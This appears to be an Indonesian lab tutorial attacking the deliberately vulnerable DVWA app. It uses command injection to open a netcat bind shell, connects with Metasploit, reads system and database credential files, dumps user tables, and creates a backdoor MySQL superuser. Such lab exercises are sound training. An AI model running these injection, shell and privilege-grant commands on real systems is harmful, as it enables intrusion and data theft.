 ## LESSON 4

Inti dari Lesson 4 adalah implementasi Metasploit command execution dengan menggunakan NetCat untuk memanipulasi database yang ada di dalam database DVWA. 

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Membuka koneksi menggunakan NetCat**
1. Akses website dari DVWA dengan cara

```
http://192.168.1.103/dvwa/login.php/;
```

**NOTE**
* Username dan Password default adalah **admin**/**password**

2. Masuk ke dalam **Command Execution** dan masukan command lalu klik **Submit**

```
192.168.1.103;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```

Hasil yang akan didapat adalah:
![SS 1](LESSON_4/1.png)

**B. Menggunakan Metasploit untuk membuka koneksi ke NetCat**
1. Menjalankan Metasploit

**Application** -> **Backtrack** -> **Application** -> **Exploitation Tools** -> **Network Exploitation Tools** -> **Metasploit Framework** -> **msfconsole**

Hasil yang akan didapat adalah:
![SS 2](LESSON_4/2.png)

2. Menjalankan koneksi ke NetCat

```
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 192.168.1.103
exploit
```

Hasil yang akan didapat adalah:
![SS 3](LESSON_4/3.png)

3. Eksplorasi User Credentials

```
whoami
grep apache /etc/passwd
grep apache /etc/group
```

Hasil yang akan didapat adalah:
![SS 4](LESSON_4/4.png)

4. Eksplorasi Proses dan Directory Credentials

```
ps -eaf | grep http
pwd
ls -ld /var/www/html
ls -ld /var/www/html/dvwa
ls -l /var/www/html/dvwa
```

Hasil yang akan didapat adalah:
![SS 5](LESSON_4/5.png)

5. Eksplorasi Database Credentials

```
ls -l /var/www/html/dvwa/config
cat /var/www/html/dvwa/config/config.inc.php
```

Hasil yang akan didapat adalah:
![SS 6](LESSON_4/6.png)

**C. Eksplorasi MySQL**
1. Memperlihatkan Informasi DVWA Database

```
echo "show databases;" | mysql -uroot -psanisani
echo "use dvwa; show tables;" | mysql -uroot -psanisani
echo "use dvwa; desc users;" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 7](LESSON_4/7.png)

2. Membuat User Baru di Tabel dvwa.users

```
echo "insert into dvwa.users values ('6','Sani','Sunny','sani9050',MD5('sanisani'),'NA');" | mysql -uroot -psanisani
echo "select * from dvwa.users;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 8](LESSON_4/8.png)

3. Menunjukkan Informasi pada Tabel MySQL

```
echo "show databases;" | mysql -uroot -psanisani
echo "use mysql; show tables;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 9](LESSON_4/9.png)

4. Membuat User Baru MySQL

```
echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'sani_hacker'@'%' IDENTIFIED BY 'sanisani' WITH GRANT OPTION;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 10](LESSON_4/10.png)

```
echo "select * from mysql.user;" | mysql -uroot -psanisani
```

Hasil yang akan didapat adalah:
![SS 11](LESSON_4/11.png)

### Kesimpulan Lesson 4

Menggunakan Metaeksploit untuk menambah user yang tidak terautentikasi sangat berbahaya karena dapat melakukan pencurian data.
